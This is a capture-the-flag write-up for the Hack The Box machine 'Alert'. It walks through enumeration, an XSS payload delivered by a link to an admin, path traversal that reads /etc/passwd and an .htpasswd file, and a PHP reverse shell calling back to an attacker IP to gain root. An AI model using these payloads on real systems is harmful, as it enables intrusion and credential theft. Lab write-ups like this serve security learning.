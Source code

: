 # Alert Writeup - by Thammanant Thamtaranon
  - Alert is an easy Linux machine on Hack The Box.

## Reconnaissance
  - We start by scanning all ports with service detection using the command `nmap -A -T4 -p- -Pn 10.10.11.44`.
![Nmap_Scan](Nmap_Scan.png)
  - After identifying the hostname, we add `alert.htb` to our `/etc/hosts` file.

## Scanning & Enumeration
  - Using `dirsearch -u alert.htb`, we perform directory enumeration.
![Dirsearch_Scan](Dirsearch_Scan.png)
  - To enumerate virtual hosts, we use:
  ```bash
  ffuf -u http://10.10.11.44 -H "Host: FUZZ.alert.htb" \
       -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
       -mc all -ac
  ```
![VHost_Scan](VHost_Scan.png)
  - This reveals `statistics.alert.htb`, which we also add to `/etc/hosts`.
  - Navigating to `http://statistics.alert.htb`, we're prompted for login credentials. Unfortunately, default or common credentials don't work.

## Exploitation
  - We return to `http://alert.htb` and test for XSS by uploading a `.md` file containing:
  ```html
  <script>alert('XSS')</script>
  ```
![XSS](XSS.png)
  - Since the script executes, we know XSS is present and exploitable.
  - We test the "Contact Us" form by sending a benign link like `http://10.10.16.11/hello`.
![Phishing1](Phishing1.png)
![Phishing2](Phishing2.png)
  - Observing that the admin clicks the link, we craft a malicious `.md` file with our payload and send the link to the admin to trigger it.
![Phishing3](Phishing3.png)
  - We then submit the malicious link to the form.
![Phishing4](Phishing4.png)
![Phishing5](Phishing5.png)
  - The link directs to `messages.php?file=2024-03-10_15-48-34.txt`. Visiting it yields nothing, so we try path traversal.
  - Trying `/messages.php?file=../../../../../../etc/passwd`, we discover users `david` and `albert`.
![PASSWD](PASSWD.png)
  - We then enumerate `/etc/apache2/apache2.conf`, which reveals the config includes `sites-enabled/*.conf`.
  - So, we load `/messages.php?file=../../../../../../etc/apache2/sites-enabled/000-default.conf`.
![Config](Config.png)
  - This reveals a reference to an `.htpasswd` file:
  ```
  AuthUserFile /var/www/statistics.alert.htb/.htpasswd
  ```
  - We fetch it using:
  ```
  /messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd
  ```
![Crack1](Crack1.png)
![Crack2](Crack2.png)
  - After cracking the credentials, we use them to log in to `http://statistics.alert.htb`.

## Privilege Escalation
  - We enumerate the web app with `dirsearch` again but find nothing useful.
  - We then SSH into the box as `albert` using the recovered credentials and capture the user flag.
  - Running `sudo -l` confirms `albert` has no sudo privileges.
  - Running `id`, we find albert is part of the `management` group (GID 1001).
  - To look for group-owned files, we run:
  ```
  find / -group management -ls 2>/dev/null
  ```
![Perm](Perm.png)
  - We find that `albert` has write access to `/opt/website-monitor/config/configuration.php`, so we inject a reverse shell payload:
  ```php
  shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'");
  ```
  - Checking the status of the website-monitor service with `systemctl status website-monitor`, we see it runs on `127.0.0.1:8080`.

### SSH Tunneling & Reverse Shell
  - We establish a tunnel to the service:
  ```
  ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
  ```
  - On our attacker machine, we start a listener with `nc -lvnp 4444` and visit `127.0.0.1:8080` to trigger the shell.
![Monitor](Monitor.png)
![ROOT](ROOT.png)
  - This gives us a reverse shell as root. We grab the root flag and complete the box.
